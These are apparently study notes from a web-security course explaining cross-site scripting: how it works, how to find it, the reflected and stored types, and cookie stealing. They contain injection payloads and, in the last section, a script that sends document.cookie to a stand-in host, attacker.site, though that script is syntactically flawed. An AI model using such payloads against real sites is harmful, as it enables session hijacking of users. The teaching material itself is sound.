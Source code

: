 **Cross Site Scripting**
- vulnerability that lets an attacker control some of the content of a web application
By using an XSS, an attacker can:
- modify the content of the site at run-time
- inject malicious contents
- steal the cookies; session of a user
- perform actions on the web application as if it was a legitimate user

**Vulnerable Web Applications**
- vulnerable web application is what makes XSS attacks possible
- happens when web application uses unfiltered user input to build the output content displayed to its end users; this lets the attacker control the output HTML + JavaScript code

User input is any parameter coming from the client side of the web app:
- request headers
- cookies
- form inputs
- POST parameters
- GET parameters
(all these input channels should be validated server side)

**Attackers**
Malicious users exploit XSS vulnerabilities to attack the users of a web site by:
- making their browsers load malicious content
- performing operations on their behalf; buying a product or changing a password
- stealing their session cookies; being able to impersonate them on the vulnerable site
* * *
**Finding an XSS**
- to find XSS you have to look at every user input; test if it is displayed on the output of the web application

![3d5571bd73b4b327d86a10bb85bd0987.png](../_resources/3d5571bd73b4b327d86a10bb85bd0987.png)


- a search parameter is submitted through a form + gets displayed on the output
- searched string is passed to the web application through a GET parameter

- after finding a reflection point, you have to understand if you can inject HTML code + see if it gets to the output of the page
- use any valid HTML tag + understand if it gets to the output of the page
- inject a harmless tag `<i> / <pre> / <plaintext>`
![42ba77afb69464431f627d60da26e4bb.png](../_resources/42ba77afb69464431f627d60da26e4bb.png)
`<i> tag is injected` 
- test string is in italic ; HTML has been interpreted

To test XSS:
- inject valid HTML/JavaScript code; `<script>alert(‘XSS’)</script>`
![82104327fbf89c39754d8e70ffe4b33b.png](../_resources/82104327fbf89c39754d8e70ffe4b33b.png)
* * *
**Reflected XSS Attacks**
- occurs when the web application responds immediately on users input without validating what the user entered; lead an attacker to inject browser executable code inside the single HTML response
- “non persistent” as the malicious script does not get stored inside the web server database; attacker needs to send the link through phishing technique in order to trap the user

(Reflected) type of attack is called Reflected because an input field of the HTTP request sent by the browser gets immediately reflected to the output page

```
localhost/hxss/get.php?search=Bug+Bounty
```
- (search=Bug+Bounty) data has been requested through GET method
- generate pop up by injecting Javascript code; 
`get.php?search<script>alert(“welcome to hacking articles”)</script>`
* * *
**Stored (Persistent) XSS Attacks**
- injected malicious script gets permanently stored inside the web applications database server
- website loads the stored malicious script + puts it within the HTML output when user visits page; deliver XSS payload
- method of attack does not require any phishing technique to target its users

(if an attacker manages to write malicious “HTML or JavaScript” on a social blog page; every user visiting that page will run the payload)
* * *
**Cookie Stealing via XSS**
- JavaScript can access cookies if they do not have the HttpOnly flag enabled; means that an XSS attack can be used to steal the cookies
- stealing cookies means stealing a user’s session
`<script>alert(document.cookie)</script>`

- send cookies to an attacker-controlled site
```
<script>
var i = new image () ;
i.src=http://attacker.site/log.php?q=+document.cookie;
</script>
```
- script generates an image object + point its src to a script on the attacker server (attacker.site)
- browser cannot tell in advance if the source is a real image; loads and executes the script

